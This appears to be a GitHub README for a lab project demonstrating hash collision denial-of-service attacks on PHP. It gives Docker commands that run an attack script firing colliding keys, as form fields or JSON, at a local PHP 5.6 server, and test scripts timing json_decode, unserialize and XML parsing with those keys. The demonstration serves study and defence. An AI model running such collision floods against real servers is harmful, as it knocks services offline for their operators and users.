 # Simulate Hash Collision Attack on a PHP Server

Checkout the [associated blog post](http://lukasmartinelli.ch/web/2014/11/17/php-dos-attack-revisited.html).

## How it works

Nowadays every web application uses a JSON API, which is still vulnerable to complexity attacks if you use PHP.

![Insert Animation](http://lukasmartinelli.ch/media/hash-collisions.gif)

## Run the server

```bash
docker run -it --rm -p 8080:80 -v "$PWD"/server:/var/www/html php:5.6-apache
```

Docker will map the port `80` of the webserver to `8080`.
Therefore you can visit your site at `localhost:8080`.

## Run a Hash Collision Attack

The `attack.py` script will make parallel requests (amount can be specified with `--count`)
to a URL endpoint. It reads collisions from given text file and tries to do a
Hash collision Attack with them. You can set the attack type to either use form fields
or a json map.

Make one request to the webserver running in the docker container.

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt
```

Make a normal request to compare with the collision attack.

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --no-collide
```

Make 100 requests to a fake JSON API.

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100 --type=json
```

## Test PHP vulnerabilities to Collision Attacks

In the directory `test` there are PHP scripts that demonstrate vulnerabilities of
functions that use the PHP map.

### Create smaller test set

The file `collision_keys` contains precomputed colliding keys. To create
a smaller set of keys for easy testing you can create a new file:

```bash
head -n 10000 collision_keys.txt > collision_keys_small.txt
```

### Run tests

Run tests for inserting colliding keys into array:

```
docker run -it \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/array.php collision_keys.txt
```

Run tests for calling `json_decode` for JSON key-value pairs with colliding keys:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/json_decode.php collision_keys.txt
```

Run tests when `unserializing` an array with colliding keys:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/unserialize.php collision_keys.txt
```

Run tests when parsing XML with elements name that should collide with each other
into a class with `xml_parse_into_struct`:

```
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/xml_parse_into_struct.php collision_keys.txt
```

## Plot time difference

You can generate the plot data used for the diagrams by yourself:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php plot/json_decode.php collision_keys.txt
```

![json_decode time compared for collisions](/plot/json_decode_time.png)
